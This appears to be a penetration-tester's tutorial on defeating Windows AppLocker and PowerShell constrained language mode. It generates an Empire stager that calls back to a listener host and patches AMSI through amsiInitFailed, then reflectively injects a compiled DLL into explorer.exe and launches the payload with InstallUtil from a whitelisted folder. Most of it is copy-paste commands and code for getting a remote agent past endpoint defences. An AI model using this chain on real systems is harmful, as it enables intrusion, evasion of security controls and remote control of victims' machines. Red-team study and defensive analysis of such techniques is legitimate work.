 # Bypassing Applocker and Powershell contstrained language mode

## Using Reflective Injection and Certutil

This technique involves packing everything together several times to bypass all the security mechanisms. I based this on the [awesome article ](https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell)from Improsec called "Babushka dolls" and elements from it's Github project.

**Edit: Sadly after Windows 10 1803 and onwards this trick doesn't work for bypassing AMSI any longer. AMSI now uses a scanbuffer instead of scanstring which was previously used.**

### Generating listener and stager in Empire

Set up a listener and generate a stager. I've put all the commands below for easy copypaste.

```text
./Empire
listeners
uselistener
set Host 10.0.0.15
set Port 80
execute
back
usestager multi/launcher
set Listener http
generate
```

![](../.gitbook/assets/image%20%2821%29.png)

![](../.gitbook/assets/image%20%2820%29.png)

### ReflectivePick with Visual Studio

We are now going to write the stager we generated into the ReflectivePick project.

Open the [PowerPick project ](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick/ReflectivePick)in VS. It may be necessary to set the target to x64. Project -&gt; ReflectivePick properties -&gt; Configuration Manager -&gt; Platform

![](../.gitbook/assets/image%20%2823%29.png)

Add the base64 from the stager where appropriate.

![](../.gitbook/assets/image%20%2826%29.png)

`wchar_t* argument = L"[Ref].Assembly.GetType('System.Management.Automation.sAmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true);$encoded = \"BASE64STRING\";$decoded = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encoded));$decoded | Out-File -FilePath C:\Windows\Tasks\out.txt;IEX $decoded"; //Output debug`

This includes an output write for demonstration purposes. You can remove it if you desire.

Compile the dll to `ReflectivePick_x64.dll`

![](../.gitbook/assets/image%20%2839%29.png)

### Execution

We can now try to run the dll with `rundll32.exe .\ReflectivePick_x64.dll,Void` but as you will soon discover, AMSI picks up the Empire stager during runtime.

![](../.gitbook/assets/image%20%2816%29.png)

Disable AMSI however, and you get an agent back.

![](../.gitbook/assets/image%20%2857%29.png)

You can also view the base64-decoded stager payload in `c:\windows\tasks\out.txt`

![](../.gitbook/assets/image%20%289%29.png)

We can't rely on manually disabling AMSI, so we are going to run it through a few more hoops.

### Load the DLL into another process

To avoid creating a new process and loading the non-whitelisted DLL we are going to reflectively inject it into a process using [Invoke-ReflectiveInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1).

 Use the following commands in PS to encode the DLL to base64 and pipe the results to a file. Don't worry if the commands take a few seconds to run. I have also noticed that Powershell adds a newline at the bottom of the file when Base64-encoding like this so manually remove that if it is present.

```text
$Content = Get-Content .\ReflectivePick_x64.dll -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\users\chris\Desktop\PowerTools-master\PowerPick\bin\x64\Debug\dll.txt"
```

![](../.gitbook/assets/image%20%2814%29.png)

Now you want to download [Invoke-ReflectivePEInjection](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1) to the working directory and open it in a text editor. At the bottom of the file, add the following lines, where we copypaste the contents of `dll.txt` to the `$dllData` object. This will ensure the dll is reflectively injected into the `explorer.exe` process during runtime.

```text
$dllData = "DLLBASE64_GOES_HERE"
$ProcId = (Get-Process explorer).Id
$Bytes = [System.Convert]::FromBase64String($dllData)
Invoke-ReflectivePEInjection -PEBytes $Bytes -ProcId $ProcId
```

![](../.gitbook/assets/image%20%2851%29.png)

### Compile to an EXE using VS

In powershell, base64 encode the entire script. Remove the newline at the bottom of the output file if present.

```text
$Content = Get-Content .\Invoke-ReflectivePEInjection.ps1 -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\users\chris\Desktop\PowerTools-master\PowerPick\bin\x64\Debug\pe.txt"
```

![](../.gitbook/assets/image%20%2849%29.png)

Open the [Bypass project](https://github.com/MortenSchenk/Babuska-Dolls/tree/master/Bypass) in VS and copypaste the base64 into the encoded variable. Compile to `Bypass.exe` with VS.

![](../.gitbook/assets/image%20%2833%29.png)

### Final execution

Use `installutil.exe` or similar [LOLbBns ](https://github.com/LOLBAS-Project/LOLBAS/blob/master/LOLBins.md)to execute `Bypass.exe`. If Applocker is present, execute it from a whitelisted directory such as `C:\Windows\Tasks`

```text
C:\windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe 
```

![](../.gitbook/assets/image%20%2813%29.png)

![](../.gitbook/assets/image%20%2819%29.png)

Thrilling! We bypassed both Applocker and Powershell constrained language mode and got an Empire agent back.

